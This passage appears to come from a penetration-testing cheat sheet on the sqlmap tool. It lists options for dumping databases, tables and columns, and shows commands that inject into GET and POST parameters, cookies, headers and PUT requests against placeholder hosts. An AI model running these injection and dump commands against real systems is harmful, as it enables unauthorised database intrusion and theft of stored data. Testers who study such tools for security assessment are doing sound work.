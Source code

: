#### DB data

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

Using [SQLMapping](https://taurusomar.github.io/sqlmapping/) it is a practical tool that generates commands and provides a complete overview, both basic and advanced, for SQLMap. It includes ToolTips that explain each aspect of the tool, detailing every option so that you can improve and understand how to use it efficiently and effectively



## Injection place

### From Burp/ZAP capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

### GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

### POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

### Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
